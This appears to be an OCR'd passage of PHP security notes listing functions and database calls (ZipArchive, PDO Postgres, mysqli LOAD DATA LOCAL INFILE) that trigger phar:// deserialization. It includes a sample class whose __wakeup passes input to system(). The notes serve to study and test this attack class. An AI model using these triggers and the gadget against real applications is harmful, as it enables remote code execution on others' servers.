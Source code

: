    gd

   - `imageloadfont`
   - `imagecreatefrom`

   hash

   - `hash_hmac_file`
   - `hash_file`
   - `hash_update_file`
   - `md5_file`
   - `sha1_file`

   file / url

   - `get_meta_tags`
   - `get_headers`
   - `mime_content_type`

   standard

   - `getimagesize`
   - `getimagesizefromstring`

   finfo

   - `finfo_file`
   - `finfo_buffer`

   zip

   ```php
   $zip = new ZipArchive();
   $res = $zip->open('c.zip');
   $zip->extractTo('phar://test.phar/test');
   Postgres
   ```

   Postgres

   ```php
   <?php
   $pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
   @$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
   ```


   MySQL

   LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper

   ```php
   <?php
   class A {
       public $s = '';
       public function __wakeup () {
           system($this->s);
       }
   }
   $m = mysqli_init();
   mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
   $s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
   $p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
   ```
